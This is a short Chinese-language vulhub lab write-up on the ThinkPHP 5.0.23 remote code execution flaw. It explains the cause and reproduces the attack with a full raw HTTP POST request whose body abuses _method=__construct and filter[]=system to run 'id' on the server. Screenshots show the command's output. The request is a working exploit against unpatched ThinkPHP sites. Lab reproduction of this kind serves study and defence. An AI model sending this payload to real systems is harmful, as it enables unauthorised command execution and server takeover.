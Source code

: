 # ThinkPHP5 5.0.23远程执行代码漏洞

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​			ThinkPHP是在中国使用极为广泛的PHP开发框架。在其版本5.0（<5.0.24）中，框架在获取请求方法时会错误地对其进行处理，这使攻击者可以调用Request类的任何方法，从而通过特定的利用链导致RCE漏洞。

### 0x02漏洞复现

#### payload1：

POST /index.php?s=captcha HTTP/1.1

Host: 192.168.15.130:8080

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Cookie: JSESSIONID=1v1yqdlc1zren12n0cs4wcfwgp; PHPSESSID=1bb9e7bee96c5ec0fe76b552020c8719

Upgrade-Insecure-Requests: 1

Cache-Control: max-age=0

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 72



_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id



​			**默认页面**

![ThinkPHP5_x_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP5_x_rce_1.jpg)



​			**burpsuite改包，id被执行，有回显**

​				![ThinkPHP5_x_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/ThinkPHP5_x_rce_2.jpg)



​	

### 0x03参考资料

https://blog.csdn.net/nicesa/article/details/106247668
